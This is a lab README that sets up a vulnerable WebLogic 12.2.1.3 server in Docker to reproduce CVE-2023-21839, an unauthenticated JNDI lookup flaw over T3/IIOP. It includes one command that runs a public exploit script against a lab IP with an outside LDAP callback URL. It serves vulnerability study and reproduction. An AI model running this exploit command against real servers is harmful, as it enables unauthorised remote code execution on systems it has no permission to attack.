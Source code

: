 # WebLogic Pre-Auth Remote Command Execution (CVE-2023-21839)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle WebLogic Server is a leading Java EE application server widely used in enterprise environments.

In the [Oracle Critical Patch Update Advisory - January 2023](https://www.oracle.com/security-alerts/cpujan2023.html), Oracle fixed a critical vulnerability (CVE-2023-21839) affecting WebLogic Server versions 12.2.1.3.0, 12.2.1.4.0, and 14.1.1.0.0.

CVE-2023-21839 allows unauthenticated remote attackers to perform JNDI lookup operations via the T3 or IIOP protocol without authorization. If the JDK version is too low or there are available deserialization gadgets (javaSerializedData) on the server, this can lead to remote code execution.

References:

- <https://www.oracle.com/security-alerts/cpujan2023.html>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-21839>
- <https://github.com/houqe/POC_CVE-2023-21839>

## Environment Setup

Start a Weblogic server 12.2.1.3 by executing the following command:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:7001/console` to access the WebLogic admin console login page.

## Vulnerability Reproduction

You can use the public exploit from <https://github.com/houqe/POC_CVE-2023-21839> to reproduce the vulnerability.

```shell
python CVE-2023-21839.py -ip 192.168.25.129 -p 7001 -l ldap://craft.ldap.tld/test
```

If the exploit is successful, you will see DNS queries or LDAP requests from the target server, as shown below:

![](1.png)
